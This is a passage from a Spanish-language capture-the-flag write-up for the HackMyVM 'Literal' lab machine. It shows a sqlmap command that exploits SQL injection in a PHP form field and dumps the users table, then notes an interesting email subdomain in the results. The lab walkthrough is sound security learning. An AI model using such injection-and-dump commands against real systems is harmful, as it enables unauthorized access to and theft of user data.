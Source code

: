 ![img](/imgs/write-ups/hackmyvm/literal/literal_3.png#center)

Se puede ver un input que realiza una consulta sql sobre una base de datos con diferentes tareas.

## Explotación

Utilizo **sqlmap** en busca de una vulnerabilidad de SQLinjection.

```
$ sqlmap -u "http://blog.literal.hmv/next_projects_to_do.php" --data "sentence-query=A*" -H "Cookie: PHPSESSID=<Cookie>" --batch -D blog -T users --dump
```

Resumiendo, obtengo estos usuarios, en los que me llama la atención el subdominio de algunos emails.

![img](/imgs/write-ups/hackmyvm/literal/literal_4.png#center)
